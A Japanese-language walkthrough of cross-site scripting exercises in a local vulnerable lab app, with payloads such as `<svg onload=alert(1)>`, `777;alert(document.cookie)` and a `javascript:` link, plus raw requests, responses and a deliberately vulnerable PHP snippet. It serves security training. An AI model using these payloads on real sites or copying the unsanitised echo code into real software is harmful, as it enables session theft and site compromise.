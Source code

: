 # Cross Site Scripting (XSS)
It allows client-side code to be injected into web pages viewed by other users.

## Basic Reflected
入力フォームに`<img src=# onerror=alert(1)>`などを入れてSubmitすれば発火する。
```http
GET /lab/xss/basic-reflected/index.php?q=%3Cimg+src%3D%23+onerror%3Dalert%281%29%3E HTTP/1.1
Host: 127.0.0.1:1337
Referer: http://127.0.0.1:1337/lab/xss/basic-reflected/index.php
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

```
```html
<body>
  <div class="container d-flex justify-content-center align-items-center h-100 mx-auto">
    <div class="alert alert-danger" style="margin-top: 30vh;" role="alert" >
    No Result Found for <b><img src=# onerror=alert(1)></b> <a href="index.php" ">Try Again</a></div>
    </div>
  <script id="VLBar" title="Basic Reflected" category-id="1" src="/public/assets/js/vlnav.min.js"></script>
</body>
```

## Basic Stored
入力フォームに`<svg onload=alert(1)>`などを入れて投稿すると保存され、以降アクセスするたびに発火する。
```http
POST /lab/xss/basic-stored/stored.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1:1337/lab/xss/basic-stored/stored.php
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

mes=hogehoge%3Csvg+onload%3Dalert%281%29%3E
```
```html
<div class="msg col-md-6 m-3 px-4 bg-primary text-wrap " style="border-radius: 20px; padding: 5px;width: fit-content;color: aliceblue;">
  hogehoge<svg onload=alert(1)>
</div>
```

## Basic Dom-Based
数字を入力すると乗算をした結果を返す。
```php
        echo '<script>';
        echo 'var height = '.$_GET['height'].';';
        echo 'var base = '.$_GET['base'].';';
        echo 'var ans = base * height / 2;';
        echo 'document.getElementById("answer").innerHTML = "'.$strings['alert'].' "+ans;';
        echo '</script>';
```

適当に`hogehoge`,`fugafuga`と入力した状態のDOMは以下の通り。
```html
<script>
  var height = hogehoge;
  var base = fugafuga;
  var ans = base * height / 2;
  document.getElementById("answer").innerHTML = "Area: "+ans;
</script>
```
JavaScriptの構文を合わせてあげればよい。  
hogehoge`の代わりに`777;alert(document.cookie)`などを入力すれば発火する。
```html
<script>
  var height = 777;alert(document.cookie);
  var base = 100;
  var ans = base * height / 2;document.getElementById("answer").innerHTML = "Area: "+ans;
</script>
```

## HTML Attribute Manipulation
入力欄に適当に`hoge`と入れてレスポンスを確認する。
```html
<div class="ticket alert alert-primary" style="max-width: 50vw;">
  <h6>
    <a href="ticket.php?name=hoge"> SEE YOUR TICKET </a>
  </h6>
</div>
```

入力したhogeがhref要素に入り、リンク先の一部として扱われていることが分かる。
`"`を一度閉じればイベントハンドラを追加できるので、`hoge" onmouseover="alert(1)`などとする。
```html
<div class="ticket alert alert-primary" style="max-width: 50vw;">
  <h6>
    <a href="ticket.php?name=hoge" onmouseover="alert(1)"> SEE YOUR TICKET </a>
  </h6>
</div>
```

## Welcome to Our Gallery
imageボタンを押すと数字だけのパラメータが飛び、後ろに`.jpg`が付いた結果が返ってくる。  
`img=1`の場合、以下の通り。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="1.jpg"/>
```

構文を壊さずにimgタグに対してイベントハンドラを埋め込めばよい。

クエリパラメータ`?img=x"onerror="alert(1)//`の場合、対象の画像なしで即時発火。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="x"onerror="alert(1)//.jpg"/>
```

`.jpg`を付けて存在するファイル名にしてあげる場合`?img=1.jpg"onmouseover="alert(1)//`のように書ける。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="1.jpg"onmouseover="alert(1)//.jpg"/>
```

## User Agent
mandalorianユーザでログインするとアクセス履歴のようなものを見させられる。  
使用しているブラウザのUser-Agentがそのまま画面に表れていることが分かる。

Click Hereボタン押下時のUser-Agentをスクリプトに書き換えれば発火する。
```http
POST /lab/xss/user-agent/user_agent_stored.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 2
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0<script>alert(1)</script>
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

a=
```

## News
ニュースのタイトルとURLを登録するとリンクを張ってくれる。  
URLをhttpでなくJavaScriptスキーマで書くと、リンク押下時に発火させることができる。
```http
POST /lab/xss/news/ HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

title=hogehoge&link=javascript%3Aalert%281%29
```
```html
<tr>
  <th>3</th>
  <td><a href="javascript:alert(1)"style="text-decoration: none;">hogehoge</a></td>
```

なお、`"`は無害化されてしまうため、イベントハンドラを入れるのは無理そう。












